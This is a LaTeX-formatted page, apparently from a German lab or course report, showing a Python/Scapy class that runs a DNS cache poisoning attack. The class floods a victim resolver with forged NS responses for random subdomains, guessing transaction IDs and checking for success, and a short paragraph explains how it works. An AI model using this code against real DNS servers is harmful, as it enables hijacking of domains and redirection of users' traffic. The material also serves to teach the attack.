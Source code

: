 \documentclass[10pt,a4paper]{article}
\begin{document}
\begin{center}
\begin{lstlisting}
class Poison(Thread):
    def __init__(self, response_amount, known_ns_domain, known_ns_ip, offset):
        self.response_amount = response_amount
        self.known_ns_domain = known_ns_domain
        self.known_ns_ip = known_ns_ip
        self.running = True
        self.offset = offset
        super(Poison, self).__init__()

    def run(self):
        counter = 0
        id = random.randrange(2 ** 16)

        while self.running:
            target_domain = "www{}{}{}".format(counter, self.offset, victim_host_base)
            counter += 1

            packet_list = [Ether() / a_request(target_domain)]

            for i in range(self.response_amount):
                packet_list.append(
                    forged_ns_response(
                        (id + i) % (2 ** 16),
                        target_domain,
                        self.known_ns_domain,
                        self.known_ns_ip
                    )
                )
            id = (id + self.response_amount) % (2 ** 16)

            print("Sending packets from {} with id in interval [{:#x}, {:#x}] to {}"
                  .format(self.known_ns_ip, id, id + self.response_amount, victim_dns_ip))
            print("Chance of success: 1-(1-{:d}/65536)**{:d} = {:.2f}".format(self.response_amount,
             counter, 1 - pow((1 - self.response_amount / 65536.), counter)))

            sendpfast(packet_list, pps=100000, iface="eth1", verbose=0)

            ns_response = sr1(a_request(self.known_ns_domain), verbose=0)

            if ns_response[DNS].an.rdata == attacker_dns_ip:
                print("Successfully poisoned the zone of {}".format(victim_host_base))
                break
            else:
                print("Poisoning failed")
\end{lstlisting}
\end{center}
Die Klasse Poison Führt den eigentlichen Angriff in einer Endlosschleife durch.
Bei jedem Schleifendurchlauf wird eine zufällige Subdomain gewählt, um das Caching zu umgehen. Es werden response\_amount viele Pakete generiert werden, wobei die erste Transaction-ID wird zufällig gewählt wird. Die Transaction-ID wird bei jedem Paket Inkrementiert.
\end{document}
